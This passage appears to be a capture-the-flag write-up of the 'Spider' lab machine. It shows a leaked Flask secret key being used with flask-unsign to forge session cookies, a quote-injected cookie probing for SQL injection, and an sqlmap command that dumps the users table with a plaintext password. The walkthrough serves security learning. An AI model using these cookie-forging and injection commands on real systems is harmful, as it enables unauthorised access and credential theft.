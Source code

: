 Checking the username in the _/user_ path:
```
(...)
'PRESERVE_CONTEXT_ON_EXCEPTION': None
'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31)
(...)
```

It works and shows the configuration variables, which contain a secret key that can be used to sign cookies.
These variables also reveal that it is a **Python Flask** application and an [article on HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign) shows how to do this with the [Flask Unsign](https://pypi.org/project/flask-unsign/) package:
```
flask-unsign --decode --cookie 'eyJjYXJ0X2l0ZW1zIjpbIjEiXSwidX(...)'
```

Signing a new cookie:
```
flask-unsign --sign --cookie "{'cart_items': ['1'], 'uuid': '093aa5a2-a93b-4075-9d1d-a8cb5a573594\''}" --secret Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942
```
```
eyJjYXJ0X2l0ZW1zIjpbIjEiXSwidXVpZCI6IjA5M2FhNWEyLWE5M2ItNDA3NS05ZDFkLWE4Y2I1YTU3MzU5NCcifQ.YxyCeQ.4usdsljBN6JTeCFGZ3ZQO9XPfVc
```

The new cookie has a _single quote (')_ symbol at the end of the _uuid_ to test for **SQL Injection**.
After replacing the old cookie with the new one, the website resolves in a HTTP status code _500 Internal Server Error_.

Using **SQLmap** command from [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#eval):
```
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump
```

It dumps the database successfully and in the table _users_ are credentials:
```
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
(...)
```

The credentials work on the web application and it shows an admin panel with different functions:

![Admin panel](spider_web-1.png)